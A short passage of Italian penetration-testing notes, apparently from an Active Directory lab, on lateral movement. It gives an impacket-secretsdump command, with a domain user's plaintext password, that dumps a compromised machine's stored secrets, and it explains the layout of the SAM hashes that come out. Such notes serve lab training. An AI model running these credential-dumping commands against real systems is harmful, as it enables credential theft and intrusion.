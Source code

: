 ### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata.
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![[Pasted image 20230906162707.png]]
Per quanto riguarda il SAM i risultato sono mostrati cosi:
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
